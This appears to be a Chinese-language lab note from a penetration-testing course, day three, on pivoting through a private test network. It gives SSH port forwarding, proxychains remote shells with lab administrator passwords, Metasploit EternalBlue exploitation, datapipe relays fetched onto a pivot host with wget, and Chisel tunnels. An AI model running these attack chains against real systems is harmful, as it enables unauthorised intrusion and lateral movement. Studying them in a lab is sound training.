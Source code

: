 ![image](https://github.com/user-attachments/assets/eb591005-b71b-4e20-8499-419a6375d2c0)Day3
===
SSH Local Port Forwarding
---
    ssh -L *:80:192.168.0.24:80 administrator@192.168.0.70
    可看到本機開了80 Port，遠端連線到192.168.0.70的22 Port
192.168.0.70
  ![image](https://github.com/user-attachments/assets/61e42d6e-f8b8-47de-9abc-d56f7090acdc)
192.168.0.18
  ![image](https://github.com/user-attachments/assets/5c4571fc-8505-49d2-a1de-5572d43f43d9)

    本機瀏覽器127.0.0.1:80 等於 192.168.0.24:80
![image](https://github.com/user-attachments/assets/62274627-a98b-4007-b9f4-84c034e2292c)

    斷線後就無法連接
![image](https://github.com/user-attachments/assets/896a68c0-6d99-4ef3-82d2-d962411f25db)

SSH Remote Port Forwarding
---
    
    先在 192.168.0.70 開啟 GatewayPorts 的設定，不然沒法讓人家連 8008 port
    sudo nano /etc/ssh/sshd_config
    sudo service ssh restart
![image](https://github.com/user-attachments/assets/f86f24b5-d46b-4093-8bf3-2c093b1b1ba5)
![image](https://github.com/user-attachments/assets/97129812-5fa9-4785-8989-a1aa5039e907)
![image](https://github.com/user-attachments/assets/4410ecea-4aa3-4ed0-b68e-08bc3f9b5710)

    ssh -R *:8008:192.168.0.24:80 administrator@192.168.0.70
![image](https://github.com/user-attachments/assets/97b841a1-8a5c-40e3-941c-34d3395c1ab6)

    可看到本機開了兩條連線22、8008
![image](https://github.com/user-attachments/assets/02c997e5-1fda-452f-942a-c8108074c879)

    192.168.0.70也開了兩條連線22、8008
![image](https://github.com/user-attachments/assets/c18e2dc1-f035-4593-8375-50d0d38cb3af)

    本機瀏覽器192.168.0.70:8008 等於 192.168.0.24
![image](https://github.com/user-attachments/assets/c81457a1-7044-4559-9dd1-3bce1297a362)

    斷線後就無法連線
![image](https://github.com/user-attachments/assets/f1be00ca-09f4-45be-a9d1-88f3a79ef725)

SSH dynamic port forwarding
---
    只要連至.18:9050的網路流量都可以透過.70轉發出去
    ssh administrator@192.168.0.70 -CD 9050
    -C：這個選項啟用了SSH壓縮，以減少資料傳輸時的頻寬使用。 它可以提高資料傳輸的效率。
    -D 9050：這是配置動態連接埠轉送的部分。
![image](https://github.com/user-attachments/assets/41aed900-6f0b-4509-bc6c-768a0189c497)

    .18的連線狀況
![image](https://github.com/user-attachments/assets/d008871f-07f4-4f61-81cb-3ff2e8c09f86)

    透過proxychains轉發流量
    sudo nano /etc/proxychains.conf
![image](https://github.com/user-attachments/assets/eecf5c1e-ca6e-4786-a43e-ef34ebcb15e0)

    proxychains winexe -U 'administrator%Pa$$w0rd' //192.168.0.7 cmd.exe
    通過代理伺服器建立到目標 Windows 主機的遠端連接，然後運行 cmd.exe 命令提示字元，以在遠端主機上執行命令。
![image](https://github.com/user-attachments/assets/ec03da12-0c29-40c3-a6e5-bcf228d8a7ae)

    proxychains xfreerdp /v:192.168.0.7 /u:administrator /p:'Pa$$word' /size:90%
    建立到目標 Windows 主機的遠端桌面連接，並以 administrator 用戶登錄，然後調整遠程桌面窗口大小。
![image](https://github.com/user-attachments/assets/8850d77e-3c7b-441b-a583-6952df85127b)

SSH Local Port Forwarding /w Jump Host
---

    ssh -J administrator@192.168.0.70 administrator@192.168.0.10 -L *:80:192.168.0.24:80
    先跳到192.168.0.70在透過192.168.0.10連到192.168.0.24的80 Port
![image](https://github.com/user-attachments/assets/2ee86876-47e8-4aef-82eb-ea71275ae550)

    本機只會看到連線192.168.0.70 22 Port
![image](https://github.com/user-attachments/assets/1dd6e2e8-2e17-4918-bae4-4df6107ca3d4)

    192.168.0.70只看的到連線192.168.0.10 22 Port
![image](https://github.com/user-attachments/assets/6520cd19-e929-4d41-8ea6-767d3746af87)

    瀏覽本機瀏覽器127.0.0.1:80可連接到192.168.0.24的80
![image](https://github.com/user-attachments/assets/0e51a666-bc4b-4f95-850e-0785a8fc553b)

    斷開連線後就無法連線
![image](https://github.com/user-attachments/assets/5e11cc9b-2d0d-4f57-8534-5a1065658791)

Meterpreter Session Routing
---

    MSF
    msfconsole
    use exploit/multi/ssh/sshexec
    set rhosts 172.19.19.70
    set username administrator
    set password Infinit3
    set lhost 172.19.19.18
    exploit
![image](https://github.com/user-attachments/assets/39ebb9d0-4c7e-484a-b5f0-3402bec8f936)

    Meterpreter (Session-Routing)
    run post/multi/manage/autoroute OPTION=s
    run autoroute -p
    background
![image](https://github.com/user-attachments/assets/49ac4283-9f80-4fb3-83fc-70ab73e29d4a)

    MS17_010
    search ms17_010
    use exploit/windows/smb/ms17_010_eternalblue
    show options
    set rhosts 192.168.0.7
    set lhost 172.19.19.18
    check
    exploit
![image](https://github.com/user-attachments/assets/0c80c931-43b2-4000-8b86-45713904e61b)

Datapipe
---
[datapipe](https://github.com/bovine/datapipe/blob/master/datapipe.c) 

    change Line 80: 20 to 999
![image](https://github.com/user-attachments/assets/3606ec73-5646-4406-b999-a38ef1f1ecc1)

    編譯datapipe.c
    gcc datapipe.c –o datapipe
![image](https://github.com/user-attachments/assets/7e4c5c7d-a7e8-417a-837e-a712ec599572)

    將編譯好的datapipe上傳至.70
    python3 -m http.server 8888
    wget 172.19.19.18:8888/datapipe
![image](https://github.com/user-attachments/assets/7ce28c5f-9757-4b61-8409-526a20ed773f)
![image](https://github.com/user-attachments/assets/bc29473f-1394-45cd-9f22-a67d580adfd0)

    Setup datapipe
    datapipe 0.0.0.0 135 192.168.0.7 135
    datapipe 0.0.0.0 445 192.168.0.7 445
    datapipe 0.0.0.0 4444 172.19.19.18 4444
![image](https://github.com/user-attachments/assets/c4a8f73a-b1d9-4d9a-96e0-b9658fea2989)

    MS17_010
    search ms17_010
    use exploit/windows/smb/ms17_010_eternalblue
    show options
    set rhosts 172.19.19.70
    set lhost 192.168.0.70
    check
    exploit
![image](https://github.com/user-attachments/assets/4f5a10d9-d798-4482-8308-0d6bd20b6d97)
![image](https://github.com/user-attachments/assets/82887d19-4b92-4e5e-9ad7-2f2a20817cda)

Chisel
---
    目前有 Windows、Parrot 兩台電腦，想讓 Windows 連結 http://127.0.0.1:8888 就可以瀏覽 Parrot 電腦中的檔案目錄結構。
    架設http server，python3 -m http.server 80
![image](https://github.com/user-attachments/assets/73cf3f15-8465-4f75-b040-02e9830e1c74)

    chisel server –p 443
    chisel client <chisel_server>:443 <remote_addr>:445
    
    Kali架設chisel server
![image](https://github.com/user-attachments/assets/7a2ae0c7-f3b8-442e-a3f1-0e52251cd660)

    Windows端下載Chisel
[Chisel](https://github.com/jpillora/chisel/releases)

    Windows Client連線
![image](https://github.com/user-attachments/assets/47bc4b29-ad25-461b-b2c2-5c2d83bced0b)

    瀏覽本機80，127.0.0.1:80
    
![image](https://github.com/user-attachments/assets/553a47c4-7661-4049-a3dd-20d0cd65be87)
![image](https://github.com/user-attachments/assets/fc04d8a4-cd4e-4f0a-bcaf-570436870c17)

Chisel Reverse
---
    chisel server –p 443 --reverse 
    chisel client <chisel_server>:443 R:<remote_addr>:445

    Windows架設chisel server
![image](https://github.com/user-attachments/assets/d0869e2f-5f6f-4beb-b8f3-d0df96fbff3f)

    Kali Client連線
![image](https://github.com/user-attachments/assets/8c7d4b97-c49c-44c2-95a6-a828eee66845)

    瀏覽本機80，127.0.0.1:80
![image](https://github.com/user-attachments/assets/48dbadd3-d3e9-4341-bb82-7ba335d8bcdb)
![image](https://github.com/user-attachments/assets/d8bdad50-2f82-414f-b798-b191399a63de)




